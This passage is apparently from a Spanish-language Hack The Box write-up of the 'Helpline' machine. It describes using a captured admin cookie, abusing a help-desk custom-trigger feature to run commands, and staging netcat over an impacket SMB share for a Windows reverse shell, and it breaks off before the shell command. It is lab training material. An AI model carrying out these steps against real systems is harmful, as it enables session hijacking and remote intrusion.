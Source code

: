 <img src="/assets/htb/helpline/Pasted image 20211105184643.png">
Obtenemos el cookie y lo ponemos en nuestro navegador
<img src="/assets/htb/helpline/Pasted image 20211105184854.png">
Una vez dentro como usuario admin en configuraciones. Nos metemos en `servicio de asistencia` y encontramos una acción llamada `Activadores personalizados` en la cual nos permite ejecutar un comando 
<img src="/assets/htb/helpline/Pasted image 20211105192604.png">
Mi método para crear la reverse shell es el siguiente
- Primero nos descargamos el binario de netcat para windows o lo copiamos desde nuestro propio OS buscándolo con `locate nc.exe`
- Creamos una carpeta compartida con impacket `sudo impacket-smbserver mario $(pwd) -smb2support` Le asignamos permiso de ejecución al netcat `chmod +x nc.exe`